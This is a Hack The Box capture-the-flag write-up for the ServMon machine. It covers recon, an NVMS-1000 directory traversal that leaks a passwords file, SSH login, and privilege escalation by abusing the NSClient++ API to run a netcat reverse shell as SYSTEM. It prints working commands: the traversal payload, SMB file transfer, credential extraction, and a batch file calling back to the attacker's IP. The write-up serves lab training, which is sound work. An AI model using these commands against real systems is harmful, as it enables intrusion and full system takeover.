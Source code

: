 # ServMon [HTB](https://app.hackthebox.com/machines/240)
![servmon-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/servmon-01.png)

## Recon

After adding the target to my `/etc/hosts` file I start scaning for open ports:

```bash
nmap -p- --min-rate 10000 servmon.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/ports-02.png)


There are quite a lot of open ports on this machine, though many of them seem to be RPC related. Let's leave these ports alone for now and run a version detection scan againts the more relevant ports:

```bash
nmap -p 21,22,80,135,139,445,5666,6063,6699,8443 -sCV servmon.htb -oN nmap.results
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/nmap-res-03.png)
![nmap-res-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/nmap-res-04.png)


We have the following:

+ An FTP server on port 21.
+ An SSH server on port 22.
+ An HTTP server on port 80.
+ RPC endpoint-mapper on port 135.
+ NetBIOS on port 139.
+ An SMB server on port 445.
+ Two "tcpwrapped" services on ports 5666 & 6063.
+ A "napster" service on port 6699.
+ A possible HTTPS server on port 8443.


Once again, we have quite a large attack surface here. Based on nmap's probing scripts, we can see that the FTP server allows for anonymous logins, so let's start with that. After which we an take a look at the HTTP/S servers. 


## FTP Port 21

Let's login to the FTP server using `anonymous: anonymous` as our credentials, and list the contents of the server:

![ftp-list-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/ftp-list-05.png)


We see a `Users` folder. If we `cd` into it, and run `ls` again, we see two user folders:

![ftp-users-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/ftp-users-06.png)


Let's see what's inside each of the folders:

+ Nadine

If we `cd` into the `Nadine` folder we will see a `Confidential.txt` file. Lets copy it over:

![ftp-nadine-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/ftp-nadine-07.png)


The file reads as such:

![nadine-file-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/nadine-file-08.png)


`Nadine` talks about the existence of a `Password.txt` file in `Nathan`'s desktop. Not a lot we can do with this information right now, but it's worth keeping this in mind as we move forward. 


+ Nathan

If we `cd` into the `Nathan` folder we will see a `To do notes.txt` file. I copy this file over as well:

![ftp-nathan-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/ftp-nathan-09.png)


This file reads as such:

![nathan-file-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/nathan-file-10.png)


`Nathan` is referencing some of the other services on this system. The main takeaways here in my opinion is the fact that the `NMVS` service is available publicly, and the mention of the `NSClient` tech. Let's start with the former one. 
 


+ What is NSClient?  

According to [this official NSClient++ page](https://nsclient.org), NSClient is a fully fledged monitoring agent which can be used with numerous monitoring tools. 


If we lookup known exploits for this tech, we can find the following [privesc action plan](https://www.exploit-db.com/exploits/46802). This looks solid, but we need to get access to the system first, so let's save this action plan for later. 


Let's check the NVMS tech. 


+ What is NVMS? 

I searched for this term online and the only thing I could find is that "NVMS" is an acronym for "National Vendor Management Service", which should be some form of a login system. Though, I wasn't able to find any wiki, or official vendor pages that describe the tech in more detail. 


If we browse towards `http://servmon.htb/` we will be see the NVMS login form:

![nvms-login-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/nvms-login-11.png)


I tried to use a couple of weak generic passwords but they all failed. 


Instead, I looked up exploits for `NVMS 1000` online and I found [this directory traversal](https://www.exploit-db.com/exploits/48311) vulnerability on ExploitDB.


According to the exploit notes, all we have to do is add the following syntax before any file we want to retrieve from the server: `../../../../../../../../../../../../../`. 


So for example, to retrive the `passwords.txt` file `Nadine` mentioned, I sent the following request:

![passwords-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/passwords-12.png)


I tried to use these passwords to login to the NVMS portal as both `Nathan` and `Nadine` but to no avail.


Then, I tried to use the passwords to login to the SSH. None of them worked to authenticate as `Nathan`, but upon testing the passwords for `Nadine`, I found that `L1k3B1gBut7s@W0rk` works to get access:

![ssh-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/ssh-13.png)


## Privilege Escalation


Let's try the [privesc exploit](https://www.exploit-db.com/exploits/46802) for NSClient. 


According to the exploit notes, we need to get access to the GUI administration panel which is running on port 8443 on the target. But based on `Nathan`'s notes, this should be restricted from public access. 
 

If we browse towards `https://10.129.227.77:8443/` we see the following


![no-nsclinet-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/no-nsclinet-14.png)


The site does respond, but none of the links work, and we can't do anything. If we read the `NSClinet` configuration file at `C:\Program Files\NSClient++\nsclient.ini` we can see why:

![allowed-hosts-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/allowed-hosts-15.png)


The site is configured to only accept connections from the localhost interface. We need to tunnel this service over to our Kali machine, then we can access it through a localhost interface. To do this we can use a simple SSH tunnel with:

```bash
ssh -L 8443:127.0.0.1:8443 -N Nadine@servmon.htb 
```

If we list the open ports on our attack machine we will see port 8433 is open:

![port-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/port-16.png)


Now we need to transfer `nc64.exe` to the target. I grab a copy to my current working directory, and start an SMB server with:

```bash
impacket-smbserver -smb2support -username htb -password htb serv .
```

Then, I connect to the share from the target and download the file:

```cmd
net use \\10.10.14.54\serv /u:htb htb
copy \\10.10.14.54\serv\nc64.exe nc64.exe
```

Here it is on the target:

![file-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/file-17.png)


Now we can disconnect from the server using:

```cmd
net use /delete \\10.10.14.54\serv
```

Now we just need the password for the NSClient admin panel. We can follow along the exploit notes and find that it is stored at `c:\program files\nsclient++\nsclient.ini`. So we can extract it as such:

```cmd
type "c:\program files\nsclient++\nsclient.ini" | findstr pass
```

![pass-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/pass-18.png)


Now that we have the password, the tunnel is set, and we copied netcat to the target, we are ready to pull of the exploit. Though for some reason, when I opened `https://localhost:8433` on my attack machine I received the following error:

![no-gui-18](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/no-gui-18.png)


I wasn't sure why this was happening, it was getting pretty late and I wanted to finish the box. So instead of using the GUI, I found a way to pull the exploit off from the command line! 


First, let's create a `htb.bat` script that reads as such:

```bat
@echo off
C:\Users\Nadine\nc64.exe 10.10.14.54 443 -e cmd.exe
```

Now to upload this script to the target, we can run something like this:

```bash
curl -k -X PUT https://127.0.0.1:8443/api/v1/scripts/ext/scripts/htb.bat -F 'data=@htb.bat' --user admin:ew2x6SsGTxjRwXOT
```

![added-19](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/added-19.png)


So far so good. 


Next, let's start a local listener with:

```bash
rlwrap nc -lnvp 443
```


Now we are ready to invoke the exploit. To do so, we can run something like this:

```bash
curl -k 'https://127.0.0.1:8443/api/v1/queries/htb/commands/execute?time=1m' --user admin:ew2x6SsGTxjRwXOT
```


After running this command my shell stalls, and on my netcat listener I receive a shell as `nt authority\system`:

![root-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/ServMon/img/root-20.png)
